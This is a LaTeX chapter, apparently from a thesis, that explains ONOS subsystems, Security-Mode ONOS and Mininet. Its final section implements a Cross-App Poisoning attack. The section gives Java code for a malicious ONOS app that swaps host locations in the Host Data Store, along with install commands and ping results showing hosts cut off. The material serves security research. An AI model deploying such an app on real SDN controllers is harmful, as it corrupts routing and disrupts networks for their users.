
\includegraphics[width=1.0\textwidth]{resources/Chapter-2/onos-subsystems.png}
\centering
\end{figure}
we can see all the subsystems present in ONOS. In the following sections (even in the next chapters) we will encounter implementation details (data format, APIs...) for some of them. In Figure 2.3 we can see a default subsystem structure with all the default components. First of all we have three layers that correspond to the Data, Control and Application logical layers. The orange rectangles are all the possible communications between an application and the core component. The green rectangles instead are all the possible communications between a provider and the core component. The blue part instead is the software taking care of distributed data. In particular, as we've seen in previous chapter, ONOS has a distributed core: this means we can deploy ONOS instances on multiple nodes and they will be up to date with their peers. In reality the only part that is shared between multiple nodes in order to stay up to date for all the events generated in distributed nodes is the actual data. The manager component is the entity taking care of the core functions for a specific subsystem and it contains all the data related to that subsystem. When a store has an update, the manager component notifies all the peers in order to have all the ONOS nodes up to date with the latest data. For this reason, the halves of the figure are specular. 
\begin{figure}[h]
\caption{ONOS subsystem structure}
\label{fig:subsystem-struct}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/sub-struct.png}
\centering
\end{figure}
Considering the left half of the figure and starting from the top we can see: 

An Application can communicate with the manager component using multiple ways (via Northbound APIs): It can query the subsystem service to receive specific data or send commands to be executed. It can sends commands to the AdminService only if the application has the required permissions. It can register itself as listener for particular events like in a publish-subscribe model; the service will notify all the applications listening for a particular event.

A Provider component can communicate with network devices using protocol-aware APIs, while use protocol-agnostic APIs (Southbound APIs) to communicate with the manager component. The Provider can receive and execute commands on behalf of the manager component; it can send data (coming from data-plane or aggregated statistics) to the ProviderService or register for events using the ProviderRegistry.

\subsection{Source code overview}

The Open Networking Foundation hosts their projects' source code on the GitHub organization "opennetworkinglab". Among many repositories (more than 50) written in many languages such as Python, Java, C, Go and Typescript it's possible to find the ONOS source code in the repository named "onos".

In the root folder out of the common text and markdown files (README, RELEASES, LICENSE, .gitignore, VERSION, CODE\_OF\_CONDUCT...) we can see a Dockerfile to build the ONOS Docker image and many files related to Bazel (WORKSPACE, BUILD, .bazel* files). Bazel is an open source tool to automate projects building and testing. It's the free and open source version (bazelbuild on GitHub) of the tool called Blaze that Google use internally. 
Going through the various folders we can list some important codebase sections:
\begin{itemize}
    \item\texttt{apps/}: This folder contains all the default applications developed by ONOS community.
    \item\texttt{cli/}: This folder contains all the code needed to implement the ONOS Command Line service (see The ONOS CLI section on the official documentation). 
    \item\texttt{core/}: This folder contains all the core components. In particular the APIs, all the data stores, the protocol-agnostic network interfaces and the security mechanisms.  
    \item\texttt{docs/}: Documentation.
    \item\texttt{drivers/}: Drivers for interacting with brand-specific entities (Cisco, Juniper, HP, Fujitsu...)
    \item\texttt{protocols/}: Various protocols support (BGP, gRPC, REST, xmpp, ovsdb, p4runtime...)
    \item\texttt{tools/}: This folder contains various tools and helper scripts to support various stages of the testing, development and production phases (e.g. install a new application at runtime using a single command).
    \item\texttt{web/}: This folder contains all the web accessible resources :API documentation, two versions of the ONOS Graphical User Interface and HTTP REST APIs.
\end{itemize}

Reading the ONOS API official documentation we can see the ONOS project exports more than 100 packages available to internal functions and applications to effectively interact with the network environment and other ONOS components \cite{apidocs}. As example we can take the package named "org.onosproject.net.host" that is the one taking care of end-station host model \& related services API definitions. As for many packages we have multiple classes and interfaces, but there are some recognizable ones present in many packages. The HostAdminService is the service for administering the inventory of end-station hosts with administration privileges. The HostProviderService is the Southbound API definition to send information to the core. The HostService is the service for interacting with the inventory of end-station hosts. The HostStore is the data-store managing the inventory of end-station hosts. These four elements (AdminService, ProviderService, Service and Store) adapted for the various subsystems are present in many packages intended to interact with the network. In the next chapters we will encounter the ONOS API definitions many times and we will understand how to use them in order to build effective Cross Application Poisoning attacks and how to edit their specification to detect those malicious behaviors.

\subsection{Security-Mode ONOS}

In Section 1.2 (Introduction to CAP attacks) under the subsection "ONOS security mechanisms", Security-Mode ONOS was introduced. In particular, we saw which are the main security problems that a malicious application could leverage and how to reduce the attack surface; how a simple Security Policy file is composed and the meaning of each important field and the various layers of security checks that must be checked in order to have access to a secured resource (Bundle-level Role-based, Application-level Role-based and API-level Permission-based Access Control). This subsection adds more useful information to understand how this mode works and how to effectively use it.
\medskip

The Figure 2.4 shows the "big picture" of the application security process through this mode. We can separate the figure in two main parts: the left half is the development process and the right half is the production process. In the left half we can notice that the operator is the ONOS application developer: this person is in charge of designing, developing and testing the application (hopefully maintaining too). Application Testing must not be ignored (too many times this happens) because a buggy application can have the exact same behavior of a malicious app. Once the developer has completed all these steps, the Security-Mode compatibility adaptation kicks in. The developer must collect all the APIs the application uses in its functions and compile the Policy file (look at the subsection "ONOS security mechanisms" in Section 1.2 to see its basic structure) following the "least privilege principle". Just to recap, this concept means that only the minimum requirements necessary to complete the operations should be granted to an application in order to avoid permissions misuse. This principle is helpful in edge scenarios too: think about a vulnerable application that an attacker can take over and control its functions, now even an attacker can use APIs not strictly necessary for that application. Once the developer completes this step, the final result is a Security-Mode compatible ONOS application, this means ONOS environments with security-mode set up can accept this new application. Then we transition from the left half to the right half with the 'distribution' process: here the developer has infinite ways to ship the product, but we can sum them up in two classes, closed-sourced and open-sourced applications. To follow the best security practices, also the product distribution should be done using some niceties, a good practice is to both sign application and policy file.
\begin{figure}[h]
\caption{Security-Mode ONOS process}
\label{fig:secmode-process}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/secmode1.png}
\centering
\end{figure}
Shifting to the right half of the figure, when an ONOS network operator wants to install a new application in the network environment, some practices should be followed. First of all, if the application and policy file are signed, the ONOS network operator should check the authenticity of the signatures. Doing so it's possible to avoid many problems related to phishing or malware campaigns. Then the application can be deployed in the Security-Mode ONOS environment, but not yet installed. In order to install the application the ONOS network operator must review the application policy and if everything seems ok agree and accept the security policy. Upon the policy acceptance, all the rules are immediately enforced \cite{secmodeslides}. 

When a new application must be installed in an ONOS environment the application life-cycle is pretty simple: 
\begin{itemize}
    \item When a new application is installed the status is INSTALLED.
    \item Only when the application is activated and the status is ACTIVE it can perform its functions.
    \item From the ACTIVE status the application can be deactivated and the status goes back to INSTALLED.
    \item From both statuses INSTALLED and ACTIVE an application can be uninstalled. 
\end{itemize}
In Security-Mode ONOS this life-cycle changes a little bit.
\begin{figure}[h]
\caption{Security-Mode ONOS application statuses}
\label{fig:secmode-states}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/secmode-states.png}
\centering
\end{figure}
When an application is activated its status becomes INSTALLED. Then when the ONOS network operator reviews the security policy the status is REVIEWED, but still cannot be installed. Only when the operator effectively accepts the security policy the status changes to SECURED and can be installed. In all the previous statuses the application can be uninstalled. From the SECURED status if a policy violation happens (e.g. an application tries to access forbidden APIs), the status changes to POLICY\_VIOLATED. In Security-Mode ONOS only when an application has the status SECURED can be activated, otherwise remains in INSTALLED status. This security policy enforcement is checked in all the multiple distributed ONOS nodes thanks to the same data store distributed consistency technology (RAFT-based strongly consistent distributed store).

Security-Mode ONOS leverages two different technologies:
\begin{itemize}
    \item\texttt{Java Security Manager}: It's a Java class (java.lang.SecurityManager) that allows to write a security policy and specify which resources (fields, class, packages, files...) an application has access to. 
    \item\texttt{OSGi security layer}: The OSGi framework specifies an optional layer taking care of security (some features include: Code Authentication, Digitally Signed JAR Files, Java JAR File Restrictions ad Filter Based Permissions).
\end{itemize}


\clearpage

\section{Mininet}

During all this research activity the data-plane and networks used were virtualized using Mininet. This section explains what is Mininet, how it works and how it's possible to create virtualized networks connected to ONOS controllers.

\subsection{General overview}
Mininet is an open source (mininet Organization on GitHub) network emulator useful for testing, research, prototyping and debugging. At the time of writing it counts more than 60 contributors, distributed using the BSD Open Source license with 6 official releases, while testing the candidate 2.3.1b1. It supports many installation methods but the easiest one is using the pre-packaged Ubuntu virtual machine images. Many virtualization systems are supported: the famous VirtualBox, VMware Fusion, Hyper-V and VMware Workstation Player, but even Qemu and KVM.

In the README of the GitHub project page the maintainers explain Mininet using a very simple definition \cite{mininetgh}: 
%% - https://github.com/mininet/mininet#how-does-it-work
\begin{quoting}[font=itshape, begintext={"}, endtext={"}]Mininet creates virtual networks using process-based virtualization and network namespaces - features that are available in recent Linux kernels. In Mininet, hosts are emulated as bash processes running in a network namespace, so any code that would normally run on a Linux server (like a web server or client program) should run just fine within a Mininet 'Host'. The Mininet 'Host' will have its own private network interface and can only see its own processes. Switches in Mininet are software-based switches like Open vSwitch or the OpenFlow reference switch. Links are virtual Ethernet pairs, which live in the Linux kernel and connect our emulated switches to emulated hosts (processes).
\end{quoting}

%% - https://mininet.org/overview/
Among many network virtualization technologies available, Mininet is used as data-plane for all the tests during the research activity. Mainly due to being open-sourced, actively maintained and having an active community, it boots faster than the alternatives (seconds vs minutes), inexpensive and always available and quickly reconfigurable and restartable. However, there are also limitations: networks virtualized using this technology cannot exceed the CPU or bandwidth available on a single server and it cannot run non Linux-compatible OpenFlow switches. Fortunately these limitations don't affect our goals.

From the maintainers' description we understand that Mininet leverages some Linux Kernel based technologies:
\begin{itemize}
    \item\texttt{Bash processes}: Nodes are spawned using bash processes running independently in the background
    \item\texttt{Network namespaces}: A Linux based machine shares a single set of network resources, such as network devices, IP and ARP routing tables, IPv4 and IPv6 protocol stacks, firewall rules and the /proc/net directory. It's possible to modify these settings, but they will be still shared across the entire Operating System. Network namespaces (supported since Linux kernel version 2.2.26) provide an isolation method in which it's possible to define isolated network resources.
    \item\texttt{Virtual Ethernet (veth) pairs}: To create network links, virtual Ethernet pairs are used. We can see this technology as a tube with two ends, whatever goes in, goes out the other end. They are used to connect nodes to each other.
\end{itemize}

%% - https://github.com/mininet/mininet#features
Among many features the authors highlight:
\begin{itemize}
    \item A command-line launcher (mn) to instantiate networks.
    \item A handy Python API for creating networks of varying sizes and topologies.
    \item Full API documentation via Python help() docstrings, as well as the ability to generate PDF/HTML documentation with make doc.
    \item Parametrized topologies (Topo subclasses) using the Mininet object.
    \item A command-line interface (CLI class) which provides useful diagnostic commands (like iperf and ping), as well as the ability to run a command to a node.
    \item A "cleanup" command to get rid of junk (interfaces, processes, files in /tmp, etc.) which might be left around by Mininet or Linux.
\end{itemize}

%% - https://www.techtarget.com/whatis/definition/OpenFlow
%% - https://en.wikipedia.org/wiki/OpenFlow
Since the environment used in tests is a Software Defined Network, we use an ONOS controller (single, never multiple), switches and end-station hosts. The ONOS controller can be remotely placed (not in the same machine) with respect to the virtualized network. The control and data planes communicate using the OpenFlow protocol. The OpenFlow protocol
is a communication protocol that allows communication between the forwarding and routing plane. As already said in Chapter 1, one of the goal of Software Defined Networking is the separation of these two actions (routing and forwarding) and the OpenFlow protocol enables this sort of communication. To connect ONOS controller with a Mininet-based virtualized network we need to perform some steps: Assuming the ONOS controller and virtualized network are placed in two different locations and the IP address of the machine deploying ONOS is 192.168.1.8, we first need to connect to the ONOS CLI using the command:
%% - https://gist.github.com/edoardottt/a8717c7601a552a5deb832f598d6d288
\begin{lstlisting}[language=bash]
  $> ssh -p 8101 onos@192.168.1.8
\end{lstlisting}
By default the administration credentials are onos:rocks. Then we need to activate the openflow protocol in ONOS controller to allow the communication with the virtualized data-plane using the command (inside ONOS CLI):
\begin{lstlisting}[language=bash]
  ONOS> app activate org.onosproject.openflow
\end{lstlisting}

Finally we can create a simple Mininet-based virtualized network connected to ONOS controller using the command. Here we are specifying that the ONOS controller is on another machine (remote) with the related IP address of the ONOS controller location (ip=192,168.1.8) and which type of switches we want to use (ovs stands for Open vSwitch using the protocol OpenFlow version 1.3)
\begin{lstlisting}[language=bash]
  $> sudo mn --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}
\medskip

\subsection{Mininet CLI}

Inside the mininet CLI shell we can use help to list all the available commands.
\begin{lstlisting}[language=bash]
  mininet> help
  ...
\end{lstlisting}

Using the command "nodes" we can list all the nodes available in the network. From the output we can see a controller (c0), two hosts (h1 and h2) and a switch (s1). This is the configuration deployed by default if nothing about the network topology is specified (same as --topo linear,2).
\begin{lstlisting}[language=bash]
  mininet> nodes
  available nodes are:
  c0 h1 h2 s1
\end{lstlisting}

Using the command "links" we can list all the links available in the network. From the output we can see there are two links in the network. The links are automatically created and set up, in this case the hosts have only one interface (eth0) while the switch have two interfaces (eth1 and eth2). The switch is connected with both hosts and the links are correctly functioning on both side (notice OK message).
\begin{lstlisting}[language=bash]
  mininet> links
  h1-eth0<->s1-eth1 (OK OK)
  h2-eth0<->s1-eth2 (OK OK)
\end{lstlisting}

Using the command "dump" we can see general information about the network nodes. From the output we can see the two hosts h1 and h2 have respectively IP addresses 10.0.0.1 and 10.0.0.2 and process ID 781 and 783. There is a single switch, the Open vSwitch s1, using protocol OpenFlow version 1.3, having IP address 127.0.0.1 only for the loop-back interface and spawned with process ID 788. The remote controller has IP address 192.168.1.8, connected using the port 6653 (default OpenFlow port) spawned with process ID 773.
\begin{lstlisting}[language=bash]
  mininet> dump
  <Host h1: h1-eth0:10.0.0.1 pid=781>
  <Host h2: h2-eth0:10.0.0.2 pid=783>
  <OVSSwitch{'protocols': 'Openflow13'} s1: lo:127.0.0.1,s1-eth1:None,s1-eth2:None pid=788>
  <RemoteController{'ip': '192.168.1.8'} c0: 192.168.1.8:6653 pid=773>
\end{lstlisting}

If we want to execute a command on a specific network node we can simply prepend its name to the command.
\begin{lstlisting}[language=bash]
  mininet> h1 ifconfig -a
  h1-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.1  netmask 255.0.0.0  broadcast 10.255.255.255
        ether 42:10:bd:0f:c3:10  txqueuelen 1000  (Ethernet)
  ...
\end{lstlisting}

Note that only the whole network is virtualized in a single shared environment. It's possible to deploy nodes in different network namespaces, even though it's not the best solution for testing debugging. As proof, we can run this command on two different machines and we get the same output.
\begin{lstlisting}[language=bash]
  mininet> h1 ps -a
  PID TTY       TIME CMD
  757 tty1  00:00:00 bash
 1052 tty1  00:00:00 sudo
 1053 tty1  00:00:00 mn
  ...
\end{lstlisting}
\begin{lstlisting}[language=bash]
  mininet> s1 ps -a
  PID TTY       TIME CMD
  757 tty1  00:00:00 bash
 1052 tty1  00:00:00 sudo
 1053 tty1  00:00:00 mn
  ...
\end{lstlisting}

In order to test connectivity between two hosts we can run the ping command.
\begin{lstlisting}[language=bash]
  mininet> h1 ping -c 1 h2
  PING 10.0.0.2 (10.0.0.2) 56(84) bytes of data.
  64 bytes from 10.0.0.2: icmp_seq=1 ttl=64 time=0.151 ms
  
  --- 10.0.0.2 ping statistics ---
  1 packets transmitted, 1 received, 0% packet loss, time 0ms
  rtt min/avg/max/mdev = 0.151/0.151/0.151/0.000 ms
\end{lstlisting}

Mininet provides also a useful command called "pingall" that simplifies the connectivity test between all the nodes in the virtualized network.
\begin{lstlisting}[language=bash]
  mininet> pingall
  *** Ping: testing ping reachbility
  h1 -> h2
  h2 -> h1
  *** Results: 0% dropped (2/2 received)
\end{lstlisting}

Prepending the network node name it's possible to run any command as in a Linux machine. This is an example of a Python HTTP server running on host h1.
\begin{lstlisting}[language=bash]
  mininet> h1 python3 -m http.server &
  ...
\end{lstlisting}

Using the --mac flag with the mn command when starting a network allows to set sequential MAC addresses (more readable).
\begin{lstlisting}[language=bash]
  mininet> h1 ifconfig -a
  h1-eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.1  netmask 255.0.0.0  broadcast 10.255.255.255
        ether 00:00:00:00:00:01  txqueuelen 1000  (Ethernet)
  ...
\end{lstlisting}

Many other useful flags are available (such as --test, --link...), but they are not used in this research activity; all the documentation is provided at the official Mininet website.

\subsection{Mininet Python API}
Mininet provides useful Python API to interact with its core functionalities. These APIs provide all the necessary capabilities to create complex networks and use all the functions available using the Mininet command line shell. There are three different levels of Mininet APIs: lower, middle and high level. The lower-level APIs define classes such as $Host$, $Switch$ and $Link$; these APIs are useful when you want have a clear clue of what is going on in the network or have a strict control all over the network devices. The middle-level APIs add the class $Mininet$ with the functions to properly manage network nodes (addHost, addSwitch, addLink...) and operations (start, stop...). The high-level APIs instead add the class $Topo$, which provides the ability to create reusable, parametrized topologies. Middle and High level APIs are useful when big networks must be created. In particular, topologies created using the high-level APIs can be reused as templates in conjunction with the --custom flag in the command mn.

The following Python code snippet is an example of low-level Mininet API. In the first six lines the network elements and links are created, then the IP addresses are set, finally it's possible to start and stop the devices.
\begin{lstlisting}[language=python]
h1 = Host( 'h1' )
h2 = Host( 'h2' )
s1 = OVSSwitch( 's1', inNamespace=False )
c0 = Controller( 'c0', inNamespace=False )
Link( h1, s1 )
Link( h2, s1 )
h1.setIP( '10.1/8' )
h2.setIP( '10.2/8' )
c0.start()
s1.start( [ c0 ] )
print( h1.cmd( 'ping -c1', h2.IP() ) )
s1.stop()
c0.stop() 
\end{lstlisting}

The following Python code snippet is an example of middle-level APIs. A Mininet object is created and using that we can add network devices and links. Then start the network, print the result of a ping command and attach the command line.
\begin{lstlisting}[language=python]
net = Mininet()
h1 = net.addHost( 'h1' )
h2 = net.addHost( 'h2' )
s1 = net.addSwitch( 's1' )
c0 = net.addController( 'c0' )
net.addLink( h1, s1 )
net.addLink( h2, s1 )
net.start()
print( h1.cmd( 'ping -c1', h2.IP() ) )
CLI( net )
net.stop()
\end{lstlisting}

The following Python code snippet is an example of high-level APIs. A network topology is defined as a class having the method build() taking as input the number of hosts to be created.
\begin{lstlisting}[language=python]
class SingleSwitchTopo( Topo ):
    "Single Switch Topology"
    def build( self, count=1 ):
        hosts = [ self.addHost( 'h%d' % i ) for i in range( 1, count + 1 ) ]
        s1 = self.addSwitch( 's1' )
        for h in hosts: 
            self.addLink( h, s1 )

net = Mininet( topo=SingleSwitchTopo( 3 ) )
net.start()
CLI( net )
net.stop()
\end{lstlisting}

This network topology can act as a template using the --custom flag. Here an example assuming the file is saved as topology.py and the ONOS controller has IP address 192.168.1.8:
\begin{lstlisting}[language=bash]
  $> sudo mn --mac --custom topology.py --topo SingleSwitchTopo --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}

Other useful Python APIs are available to build complex and fine-grained virtualized networks. Only the necessary commands and APIs used in the research activity were presented, all the others are well explained in the official Mininet documentation. 

\clearpage


\section{CAP attacks implementation}

\subsection{Malicious Host Tracking}
%% - general idea
This attack is the same described in the paper "Cross-App Poisoning in Software-Defined Networking" by Ujcich et al. There is only one ONOS controller with an host tracking and a reactive forwarding application. The first one has write permission on the Host Data Store, while the second one can read from the same store and write in the Flow Rule Store. The attack works in this way: the malicious host tracking application modifies the hosts' location, doing so when the network experiences a flow rule miss the switches have to ask to the ONOS controller where the packets should go. Given the fact that the Host Data Store is poisoned with fake locations, also the flow rules that should be installed won't be the rules to correctly route the packets. In this Cross Application Poisoning attack the goal of the malicious application is to install new flow rules even if it doesn't have the necessary permissions to do so.

After the local ONOS controller startup using the command
\begin{lstlisting}
  ~/onos/$> bazel run onos-local
\end{lstlisting}

two applications are installed: the org.onosproject.fwd application that takes care of reactive forwarding (installing flow rules dynamically when a flow rule miss happens) that is the CAP gadget used for this attack
\begin{lstlisting}[language=bash]
  ONOS> app activate fwd
\end{lstlisting}

and the openflow protocol support in order to connect the controller with the data-plane.
\begin{lstlisting}[language=bash]
  ONOS> app activate org.onosproject.openflow
\end{lstlisting}


To setup the data-plane for this CAP attack the command used is the following. This command creates hosts using human-readable MAC addresses, creates a topology with four hosts connected to four switches, use a remote controller with IP address 192.168.1.8 and set the switches to be OpenVSwitch models using protocol OpenFlow version 1.3.
\begin{lstlisting}[language=bash]
  $> sudo mn --mac --topo linear,4 --controller remote,ip=192.168.1.8 --switch ovs,protocols=OpenFlow13
\end{lstlisting}

Inside the ONOS CLI console we can use the command \textbf{apps} with some flags to list all the applications installed and activated. The first field is the application ID, then the application name, the ONOS version and the short description.
\begin{lstlisting}[language=bash]
onos@root> apps -a -s                                                      
*   3 org.onosproject.hostprovider         2.7.0    Host Location Provider
*   4 org.onosproject.lldpprovider         2.7.0    LLDP Link Provider
*   5 org.onosproject.optical-model        2.7.0    Optical Network Model
*   6 org.onosproject.openflow-base        2.7.0    OpenFlow Base Provider
*   7 org.onosproject.openflow             2.7.0    OpenFlow Provider Suite
*  38 org.onosproject.drivers              2.7.0    Default Drivers
*  47 org.onosproject.gui2                 2.7.0    ONOS GUI2
* 121 org.onosproject.fwd                  2.7.0    Reactive Forwarding
\end{lstlisting}

The only applications that access the Northbound APIs in this scenario are the reactive forwarding and the Web dashboard (GUI2) application.

\begin{figure}[h]
\caption{Malicious Host Tracking CAP attack - data-plane}
\label{fig:cap1-dataplane}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap1.png}
\centering
\end{figure}

The Figure 2.6 shows how the data-plane is composed. The first host (shown with a circle) is called h1 and has IP address 10.0.0.1. There are other three hosts with sequential IP addresses. All the hosts are connected to a single switch and as the figure shows each switch is connected to another one so each part of the network is fully reachable. 
\medskip

The malicious application is developed knowing how the network is composed and which are the peculiar characteristics: how many and which hosts are present in the network, their IP addresses and other information. However, nothing is stopping the attacker to implement a reconnaissance phase before the actual malicious payload is executed. Moreover, since in this case the malicious application has direct access to the Host Data Store, gather information about the network is not a problem. 

In this code snippet (after the package definition and all required imports), in the first line there is the Component definition. This is an OSGi declaration to specify that as soon as the OSGi bundle requirements are met the component must be activated. Then we have the class and the logger definition. In line 53 there is another annotation telling to the OSGi engine that the imported resource defined in the next line is mandatory. This means that only after the moment  CoreService becomes available, the class MalHostTracking can be used. Note that CoreService is not the only mandatory object, but the snippet is trimmed for brevity.
\begin{lstlisting}[language=java,firstnumber=48]
@Component(immediate = true)
public class MalHostTracking {

    private final Logger log = LoggerFactory.getLogger(getClass());

    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected CoreService coreService;
    ...
\end{lstlisting}

In the following code snippets the activation and deactivation methods are defined. The annotations @Activate and @Deactivate above the methods tell to the OSGi engine which methods are used to activate and deactivate the application. These are the methods used when in the ONOS CLI console the operator executes commands like \textbf{app activate *} or \textbf{app deactivate *}.
\begin{lstlisting}[language=java,firstnumber=82]
    @Activate
    protected void activate() {
        coreService.registerApplication("org.edoardottt.malhosttracking.app")
        editHostStore();
        log.info("Started malhosttracking App!");
    }
\end{lstlisting}

\begin{lstlisting}[language=java,firstnumber=91]
    @Deactivate
    protected void deactivate() {
        log.info("Stopped malhosttracking App!");
    }
\end{lstlisting}

This private method is used to retrieve the locations of a specific host. A location is just an interface where the host is connected to. Multiple locations are accepted (represented as an array) because an host can be connected to multiple interfaces. However, when a flow rule must be installed only the first one is used. The method takes as input an host ID and returns as output a set of HostLocation objects.
\begin{lstlisting}[language=java,firstnumber=139]
    private Set<HostLocation> getLocations(HostId hID) {
        Host h = hostService.getHost(hID);
        Set<HostLocation> locations = h.locations();
        return locations;
    }
\end{lstlisting}

The following private method is used to get a specific Host object from all the available ones. In particular an integer is taken as input and using the HostService API a complete list of hosts present in the network is retrieved, then the integer is used as index for the array and the Host object having the inputted index is returned. Notice that in this example the network is known, otherwise a check on the array index should be done (in order to avoid exceptions).  
\begin{lstlisting}[language=java,firstnumber=165]
    private Host getHost(int i) {
        Iterable<Host> hosts = hostService.getHosts();
        List<Host> hostList = new ArrayList<Host>();
        hosts.forEach(hostList::add);
        Host randomHost = hostList.get(i);

        return randomHost;
    }
\end{lstlisting}

The private method \textbf{editHostStore()} is the actual malicious code. The selected victim hosts are the first and the third ones, respectively h1 and h3. Once obtained their location arrays using the private method \textbf{getLocations()}, the locations are swapped: in the locations array of host h1 there will be the location of host h3, while in the locations array of h3 there will be the location of h1. This is achieved by firstly adding the new location to the arrays and then removing the old ones, this is needed because otherwise if the ONOS controller notices that there is an host in the Host Data store without a location, it will completely removes the host from the Host Data Store.
\begin{lstlisting}[language=java,firstnumber=98]
private void editHostStore() {
        HostId h1 = getHost(0).id();
        HostId h3 = getHost(2).id();
        log.info("Malicious Host Tracking App: Selected host {} and host {}", h1, h3);
        Set<HostLocation> locationsH1 = getLocations(h1);
        Set<HostLocation> locationsH3 = getLocations(h3);
        log.info("Malicious Host Tracking App: Locations {} and {}", locationsH1, locationsH3);
        HostLocation newLocationH1 = locationsH3.iterator().next();
        HostLocation newLocationH3 = locationsH1.iterator().next();
        hostStore.appendLocation(h1, newLocationH1);
        hostStore.appendLocation(h3, newLocationH3);
        log.info("Malicious Host Tracking App: Locations {} and {}", getLocations(h1), getLocations(h3));
        hostStore.removeLocation(h1, newLocationH3);
        hostStore.removeLocation(h3, newLocationH1);
        log.info("Malicious Host Tracking App: Locations successfully poisoned: {} and {}", getLocations(h1), getLocations(h3));
    }
\end{lstlisting}

Once successfully compiled the application with the following command and obtained the resulting .oar file,
\begin{lstlisting}[language=bash]
$> mvn package -DskipTests
\end{lstlisting}

it's possible to install and activate the malicious application using the helper utility provided by ONOS maintainers.
\begin{lstlisting}[language=bash]
$> ./tools/package/runtime/bin/onos-app localhost install! onos-malhosttracking-2.0.0-SNAPSHOT.oar
\end{lstlisting}

Before activating the malicious application a pingall test was performed and the following is the output:
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 h3 h4
h2 -> h1 h3 h4
h3 -> h2 h3 h4
h4 -> h1 h2 h3
*** Results: 0% dropped (12/12 received)
\end{lstlisting}

It's clear that every host can reach any other host in the network. Once the malicious application is activated another pingall test was performed and this is the output:
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 X h4
h2 -> h1 X h4
h3 -> h2 X h4
h4 -> h1 h2 h3
*** Results: 25% dropped (9/12 received)
\end{lstlisting}

This is what is happened:
\begin{itemize}
    \item When H1 tries to ping H2 (so the exact first ICMP request), it actually sends the ICMP echo packet. The HostLocationProvider application is active and due to the fact that its main goal is to fix locations array, seeing a packet with the IP address 10.0.0.1 coming from the old H1 location, it writes back the right location of H1 in the Host Data Store.
    \item Since H1's location array went back to the correct value, it can ping normally H2 and H4, but not H3 because the reactive forwarding app is installing flow rules for the wrong location. In particular since the location of H3 is the real location of H1, the packets will never leave the switch.
    \item H3 will be connected again to the network when it sends a packet containing its IP or MAC address (IP / ARP) since HostLocationProvider will fix its location array (as already done for H1) bringing the network back to normal.
